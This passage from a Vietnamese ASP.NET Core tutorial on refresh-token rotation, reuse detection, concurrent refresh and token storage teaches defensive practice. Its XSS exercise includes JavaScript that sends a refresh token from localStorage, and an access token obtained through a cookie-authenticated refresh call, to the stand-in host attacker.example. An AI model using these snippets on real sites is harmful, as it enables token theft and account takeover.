2. **Ghi kèm IP và User-Agent của cả hai lần dùng.** Nếu chúng khác nhau rõ rệt (khác quốc gia, khác loại thiết bị) thì gần như chắc chắn là tấn công thật chứ không phải nhiều tab — xem bài 2.
3. **Thông báo cho người dùng.** "Phiên đăng nhập của bạn đã kết thúc vì lý do bảo mật" cộng một email. Người dùng thật cần biết để đổi mật khẩu.

**Một giới hạn phải thừa nhận.** Cơ chế này **phát hiện sau khi việc đã xảy ra**, không ngăn được lần dùng đầu tiên của kẻ trộm. Nó thu hẹp cửa sổ thiệt hại xuống còn khoảng thời gian giữa hai lần refresh, chứ không đóng được hoàn toàn. Ngăn chặn thật sự nằm ở chỗ **đừng để token bị đánh cắp** — xem bài 3.

</details>

---

#### Bài 2 — Ba tab cùng làm mới token

Bắn 3 request `/refresh` đồng thời với cùng một token bằng `Task.WhenAll`. Chạy với ba phiên bản: (a) rotation kiểu "đọc, sửa, `SaveChangesAsync`" không có cửa sổ ân hạn, (b) rotation bằng `ExecuteUpdateAsync` có điều kiện nhưng chưa có cửa sổ ân hạn, (c) bản đầy đủ của bài. Với mỗi phiên bản, ghi lại mã trạng thái của ba request và số refresh token còn sống trong database.

**Tiêu chí hoàn thành:** bạn giải thích được kết quả của cả ba phiên bản, và nêu được vì sao cửa sổ 10 giây đủ an toàn dù nghe như một lỗ hổng.

<details>
<summary><strong>Gợi ý và lời giải — Bài 2</strong></summary>

**Gợi ý.** Đếm số token **còn sống** sau ba request, không chỉ nhìn mã trạng thái. Một hệ thống "chạy được" có thể đang tạo ra nhiều chuỗi song song.

**Lời giải — bắn ba request:**

```csharp
var results = await Task.WhenAll(Enumerable.Range(0, 3).Select(_ => RefreshAsync(r1)));
foreach (var r in results)
    Console.WriteLine($"{r.StatusCode} {(RefreshCookieFrom(r) is null ? "" : "+cookie")}");
```

**Phiên bản (a) — đọc, sửa thuộc tính, `SaveChangesAsync`:**

```csharp
var stored = await db.RefreshTokens.FirstOrDefaultAsync(t => t.TokenHash == hash, ct);
// ... nếu stored.RevokedAt is null:
stored.RevokedAt = now;
stored.RevokedReason = "rotated";
db.RefreshTokens.Add(new RefreshToken { /* R mới */ });
await db.SaveChangesAsync(ct);
```

Kết quả chạy thật trên PostgreSQL 16 (ba lần chạy liên tiếp đều như nhau):

```text
OK +cookie   OK +cookie   OK +cookie
Bảng RefreshTokens: 4 dòng, 3 còn sống
```

**Không ai bị đăng xuất, nhưng đây là kết quả tệ nhất.** Cả ba request cùng đọc thấy R1 chưa bị huỷ, cùng rotate, và giờ có **ba chuỗi song song** cho một phiên. Kẻ tấn công lợi dụng đúng khe này thì nhận chuỗi riêng mà không bao giờ kích hoạt phát hiện tái sử dụng.

**Phiên bản (b) — `ExecuteUpdateAsync` có điều kiện, không có cửa sổ ân hạn:**

```text
OK +cookie   Unauthorized   Unauthorized
Bảng RefreshTokens: 2 dòng, 0 còn sống, lý do huỷ: rotated, reuse-detected
```

```text
crit: Refresh token đã bị huỷ được dùng lại. User 1, IP (null). Đã huỷ 1 token còn sống.
```

Chỉ một request rotate được — đúng. Nhưng hai request còn lại bị coi là tái sử dụng, và R2 vừa cấp cho tab 1 cũng bị huỷ. **Người dùng bị đăng xuất, và không có kẻ tấn công nào.** Ba tab của chính họ gây ra chuyện đó. Đây là loại lỗi rất khó truy: người dùng báo "cứ bị đăng xuất ngẫu nhiên", log thì đầy cảnh báo bảo mật, và bạn đi tìm kẻ tấn công không tồn tại.

**Phiên bản (c) — bản đầy đủ, có cửa sổ ân hạn:**

```text
OK +cookie   OK   OK
Bảng RefreshTokens: 2 dòng, 1 còn sống, lý do huỷ: rotated
```

Cả ba tab nhận access token. Chỉ một response có `Set-Cookie` mang R2, và trong database chỉ có **một** token sống. Thứ tự của ba response thay đổi giữa các lần chạy (có lần tab thứ hai là tab nhận cookie), nhưng luôn đúng một cookie và một token sống. Cùng mã nguồn chạy trên SQL Server 2022 cho ra đúng ba kết quả như trên.

**Vì sao 10 giây đủ an toàn — hai lý do độc lập:**

1. **Nhiều tab cùng làm mới diễn ra trong vài chục mili-giây.** Ba tab cùng phát hiện token hết hạn trong cùng một khoảnh khắc. 10 giây rộng hơn nhu cầu hàng trăm lần, nên nó bắt trọn mọi trường hợp hợp lệ.

2. **Kẻ tấn công lợi dụng được rất ít.** Để lợi dụng, hắn phải dùng token bị đánh cắp **trong vòng 10 giây kể từ lúc người dùng thật rotate nó**. Kể cả thành công, hắn chỉ nhận một **access token** sống 15 phút, không nhận được refresh token nào, nên không thể kéo dài phiên. Lần thử thứ hai sau 10 giây sẽ kích hoạt phát hiện tái sử dụng.

**Hai điều kiện làm cửa sổ này an toàn, đừng bỏ:**

- **Cửa sổ ân hạn không bao giờ cấp refresh token.** Cấp refresh token mới là tạo ra hai chuỗi song song — đúng thứ phiên bản (a) đã làm hỏng.
- **Chỉ áp dụng cho token bị huỷ với lý do `rotated`**, không áp cho token bị huỷ do đăng xuất hay do phát hiện tấn công.

**Cách 2 — client tự đồng bộ — sạch hơn nhưng cần hợp tác:**

```ts
let refreshing: Promise<string> | null = null;

async function getAccessToken() {
  if (!isExpired()) return current;
  refreshing ??= doRefresh().finally(() => { refreshing = null; });
  return refreshing;
}
```

Trong một tab, mọi lời gọi cùng chờ một `Promise`, nên chỉ có một request `/refresh`. Muốn gộp giữa các tab thì thêm `BroadcastChannel` để tab đầu tiên báo kết quả cho các tab khác. Nếu bạn kiểm soát được client thì nên làm **cả hai**: client giảm số lần chạm tới tranh chấp, server có cửa sổ ân hạn làm lưới an toàn.

</details>

---

#### Bài 3 — XSS đọc token trong `localStorage`

Lưu refresh token trong `localStorage`, chèn một script đọc và gửi nó đi. Chuyển sang cookie `HttpOnly` và xác nhận script không đọc được.

**Tiêu chí hoàn thành:** bạn nêu được cookie `HttpOnly` chặn **điều gì** và **không** chặn điều gì.

<details>
<summary><strong>Gợi ý và lời giải — Bài 3</strong></summary>

**Gợi ý.** `HttpOnly` nói với trình duyệt: JavaScript không được **đọc** cookie này. Nó không nói gì về việc trình duyệt có **gửi** cookie đi hay không.

**Lời giải — với `localStorage`:**

```js
localStorage.setItem('refreshToken', 'Qm9xV3...');
```

Một script chèn được vào trang — qua thư viện npm bị chiếm, qua quảng cáo bên thứ ba, hay qua chính lỗ hổng upload ở [bài 9.5](../module-09-web-api-professional/9.5-file-upload-and-download.md) — chỉ cần một dòng:

```html
<script>
  fetch('https://attacker.example/steal?t=' + localStorage.getItem('refreshToken'));
</script>
```

Kẻ tấn công giờ có refresh token và dùng được **từ máy của hắn**, ngoài mọi phiên của người dùng, cho tới khi token hết hạn tuyệt đối.

**Với cookie `HttpOnly`** (dùng `RefreshCookie.Options()` ở mục 10.3.5):

```js
document.cookie
// "theme=dark; locale=vi"     <- không có refresh_token
```

**Script không đọc được. Nhưng đây mới là phần quan trọng của bài:**

| `HttpOnly` chặn | `HttpOnly` **không** chặn |
|---|---|
| JavaScript đọc giá trị token | Trình duyệt **tự động gửi** cookie trong mọi request phù hợp tới API |
| Mang token ra máy khác | Script gọi API của bạn **thay mặt người dùng** |

Nghĩa là script độc hại vẫn làm được điều này:

```js
// Không cần đọc token — trình duyệt tự đính kèm cookie
await fetch('/api/auth/refresh', { method: 'POST', credentials: 'include' })
  .then(r => r.json())
  .then(d => fetch('https://attacker.example/?a=' + d.accessToken));
```

Hắn không lấy được **refresh token**, nhưng lấy được **access token** vừa cấp, và gọi được mọi API trong lúc script còn chạy trên trang.

**Vậy `HttpOnly` được gì.** Nó biến một vụ chiếm tài khoản **lâu dài** thành một vụ lạm dụng **trong phiên**: kẻ tấn công chỉ hành động được khi nạn nhân đang mở trang, và mất quyền khi access token hết hạn. Đó là cải thiện lớn, nhưng không phải là chặn XSS.

**Chặn XSS mới là việc thật, và nó nằm ở bốn chỗ khác:**

1. **Content Security Policy** (CSP, header nói cho trình duyệt nguồn script nào được chạy) — chặn script không nằm trong danh sách cho phép:

   ```csharp
   ctx.Response.Headers["Content-Security-Policy"] =
       "default-src 'self'; script-src 'self'; object-src 'none'; base-uri 'self'";
   ```

2. **Không render HTML thô từ dữ liệu người dùng.** React và Angular escape mặc định — cái nguy hiểm là `dangerouslySetInnerHTML` và `[innerHTML]`.

3. **File người dùng upload phải ở tên miền khác**, như [bài 9.5](../module-09-web-api-professional/9.5-file-upload-and-download.md) trình bày.

4. **Kiểm soát phụ thuộc.** Một gói npm bị chiếm là một `<script>` chạy trên trang bạn. Ghim phiên bản và quét định kỳ.

**Kết luận thực dụng.** Cookie `HttpOnly` + `Secure` + `SameSite=Strict` cho refresh token, access token giữ trong bộ nhớ JavaScript (không phải `localStorage`), và CSP chặt. Ba lớp đó không loại bỏ XSS, nhưng khiến một lỗ hổng XSS gây thiệt hại nhỏ hơn hẳn.

</details>

## Tự kiểm tra

<details>
<summary>Refresh token giải quyết mâu thuẫn gì?</summary>

Access token phải sống ngắn vì không thu hồi được, nhưng người dùng không muốn đăng nhập lại mỗi 15 phút. Ý tưởng là thứ đi qua mạng liên tục thì sống ngắn, còn thứ sống dài thì hiếm khi đi qua mạng và được lưu ở server nên thu hồi được.

</details>

<details>
<summary>Vì sao phải hash refresh token trước khi lưu?</summary>

Vì nó là chứng chỉ xác thực ngang mật khẩu. Ai đọc được bảng đó qua SQL injection, qua bản backup hay qua quyền đọc production đều mạo danh được mọi người dùng đang đăng nhập. SHA-256 là đủ vì token đã là 512 bit ngẫu nhiên, không có gì để dò.

</details>

<details>
<summary>Phát hiện tái sử dụng hoạt động thế nào?</summary>

Mỗi lần làm mới sinh token mới và huỷ token cũ. Nếu một token đã huỷ được dùng lại thì hoặc kẻ tấn công dùng trước và người dùng thật phát hiện, hoặc ngược lại; dù thế nào việc tái sử dụng cũng luôn xảy ra. Khi đó phải huỷ toàn bộ chuỗi vì bạn không biết bên nào là kẻ tấn công.

</details>

<details>
<summary>Vì sao rotation kiểu đọc, sửa, SaveChanges là không đủ?</summary>

Vì nhiều request mang cùng token tới gần như cùng lúc sẽ cùng đọc thấy token chưa bị huỷ và cùng rotate, tạo ra nhiều chuỗi token song song. Phải đặt điều kiện RevokedAt IS NULL ngay trong câu UPDATE bằng ExecuteUpdateAsync và kiểm số dòng được cập nhật: chỉ request nhận được 1 dòng mới được cấp token mới.

</details>

<details>
<summary>Client nên lưu refresh token ở đâu?</summary>

Trong cookie HttpOnly, Secure, SameSite và giới hạn Path tới endpoint auth. localStorage bị mọi lỗ hổng XSS trên tên miền đọc được, kể cả XSS đến từ một thư viện npm bị chèn mã. Mẫu thực dụng là access token trong bộ nhớ JavaScript và refresh token trong cookie HttpOnly.

</details>

<details>
<summary>Cửa sổ ân hạn trả về gì, và vì sao không trả lại R2?</summary>

Nó chỉ trả một access token mới, không trả refresh token. Server chỉ lưu hash của R2 nên không thể trả lại R2, và cũng không cần vì các tab cùng trình duyệt dùng chung cookie mà tab đầu tiên đã nhận. Cấp một refresh token mới thì lại tạo chuỗi thứ hai song song.

</details>

## Kết luận

Ba điều đáng nhớ nhất:

1. **Rotation không kèm phát hiện tái sử dụng gần như vô nghĩa** — và rotation không chống tranh chấp thì tạo ra nhiều chuỗi song song.
2. **Refresh token là mật khẩu.** Hash trước khi lưu, đặt trong cookie `HttpOnly`, xoá đúng `Path`.
3. **Nhiều tab cùng làm mới là chuyện thường.** Cửa sổ ân hạn chỉ cấp access token, không cấp refresh token.

## Tham khảo

- [RFC 9700 — Best Current Practice for OAuth 2.0 Security](https://www.rfc-editor.org/rfc/rfc9700.html)
- [ExecuteUpdate and ExecuteDelete — EF Core](https://learn.microsoft.com/en-us/ef/core/saving/execute-insert-update-delete)
- [RandomNumberGenerator class](https://learn.microsoft.com/en-us/dotnet/api/system.security.cryptography.randomnumbergenerator)
- [OWASP Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)

## Điều hướng

- **Bài trước:** [10.2 — JWT Authentication](10.2-jwt-authentication.md)
- **Bài tiếp theo:** [10.4 — Role-based Authorization](10.4-role-based-authorization.md)
- **Về module:** [Trang mục lục](README.md)
